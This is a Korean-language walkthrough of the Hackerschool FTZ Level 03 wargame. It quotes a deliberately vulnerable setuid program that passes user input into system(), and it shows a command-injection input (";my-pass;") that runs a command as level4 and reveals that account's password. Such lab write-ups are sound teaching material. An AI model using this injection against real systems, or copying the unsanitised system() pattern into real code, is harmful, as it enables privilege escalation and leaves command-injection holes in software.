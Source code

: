 # Hackerschool FTZ Level 03

```
login as: level3
level3@192.168.18.131's password:
[level3@ftz level3]$ ls
hint  public_html  tmp
[level3@ftz level3]$ cat hint




다음 코드는 autodig의 소스이다.


#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }


    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");


    system( cmd );

}


이를 이용하여 level4의 권한을 얻어라.


more hints.
- 동시에 여러 명령어를 사용하려면?
- 문자열 형태로 명령어를 전달하려면?




[level3@ftz level3]$ find / -perm -4000 -user level4 2>/dev/null
/bin/autodig
[level3@ftz level3]$ /bin/autodig ";my-pass;"
dig: Couldn't find server '': Name or service not known


Level4 Password is "suck my brain".


sh: line 1: version.bind: command not found
[level3@ftz level3]$
```

힌트를 보면 동시에 여러 명령어를 사용하는 방법과, 이를 문자열 형태로 전달하는 방법에 대해서 물어보고 있다.

먼저 `level4` 계정의 권한을 가진 파일을 찾으니, `/bin/autodig` 라는 파일이 나온다. 위 힌트에서 이 파일의 소스를 함께 제공해줬다.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){

    char cmd[100];

    if( argc!=2 ){
        printf( "Auto Digger Version 0.9\n" );
        printf( "Usage : %s host\n", argv[0] );
        exit(0);
    }


    strcpy( cmd, "dig @" );
    strcat( cmd, argv[1] );
    strcat( cmd, " version.bind chaos txt");


    system( cmd );

}
```

Command Injection 을 통해서 풀 수 있는데, `;` 를 사용하여 명령어를 분할하고, `"` 를 사용하여 문자열로 전달하면 된다.

즉, `/bin/autodig ";my-pass;"` 다음과 같이 실행하게 되면
- `dig @`
- `my-pass`
- ` version.bind chaos txt`

이렇게 3개의 명령어로 분할이 되어서 실행되게 된다.

그리하여 `level4` 권한으로 `my-pass` 가 실행되게 되었다.